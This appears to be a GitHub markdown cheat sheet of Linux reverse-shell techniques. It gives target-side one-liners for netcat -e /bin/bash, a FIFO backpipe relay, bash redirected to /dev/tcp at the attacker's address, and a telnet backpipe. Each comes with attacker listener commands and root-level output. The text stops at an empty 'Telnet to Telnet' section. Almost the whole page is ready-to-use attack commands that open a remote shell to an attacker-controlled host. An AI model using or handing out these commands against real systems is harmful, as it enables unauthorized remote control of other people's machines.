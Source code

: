 ```yaml
---
title: Linux Remote Shells
---
```


# Linux Remote Shell Techniques

Abbreviations:

* AIP = Attacker's IP address
* APORT = Port of listening service on the attacker's machine
* TIP = Target's IP address
* TPORT = Target's port (most like a random number generated automatically)

## Standard Unsecure Netcat

This technique relies on a security feature being disabled when netcat was
compiled (that is the -e option).

Target:

```
[root@target ~]# nc <AIP> <APORT> -e /bin/bash
```

Attacker:

```
[root@attacker ~]# nc -n -vv -l -p <APORT>
listening on [any] <APORT> ...
connect to [<AIP> from (UNKNOWN) [TIP] [TPORT]
id
uid=0(root) gid=0(root) groups=0(root)
```

## Using Netcat with Security Hole Closed

is based on the common technique used to build netcat relays. When the
GAPING_SECURITY_HOLE is disabled, which means you don’t have access to the ‘-e’
option of netcat, most people pass on using netcat and move to something else.
Well this just isn’t necessary. Create a FIFO file system object and use it as
a backpipe to relay standard output from commands piped from netcat to
/bin/bash back into netcat.

Target:

```
[root@target ~]# mknod backpipe p && nc <AIP> <APORT> 0<backpipe | /bin/bash 1>backpipe
```

Attacker:

```
[root@attacker ~]# nc -n -vv -l -p <APORT>
listening on [any] <APORT> ...
connect to [<AIP> from (UNKNOWN) <TIP> <TPORT>
id
uid=0(root) gid=0(root) groups=0(root)
```

## Netcat Without Netcat

I love “hacks” that use features of the operating system against itself. This
is one of those “hacks”. It takes the /dev/tcp socket programming feature and
uses it to redirect /bin/bash to a remote system. It’s not always available,
but can be quite handy when it is.

Target:

```
[root@target ~]# /bin/bash -i > /dev/tcp/<AIP>/<APORT> 0<&1 2>&1
```

Attacker:

```
[root@attacker ~]# nc -n -vv -l -p <APORT>
listening on [any] <APORT> ...
connect to [<AIP> from (UNKNOWN) <TIP> <TPORT>
[root@target ~]# id
uid=0(root) gid=0(root) groups=0(root)
[root@target ~]#
```

## Netcat Without Netcat or /dev/tcp

For when /dev/tcp is not available either, combine it with the backpipes

Target:

```
[root@target ~]# mknod backpipe p && telnet <AIP> <APORT> 0<backpipe | /bin/bash 1>backpipe
```

Attacker:

```
[root@attacker ~]# nc -n -vv -l -p <APORT>
listening on [any] <APORT> ...
connect to [<AIP> from (UNKNOWN) [TIP] [TPORT]
id
uid=0(root) gid=0(root) groups=0(root)
```

## Telnet to Telnet

By god this is an ugly one... but it works... and if it's all you got then it's
all you got.

Target:

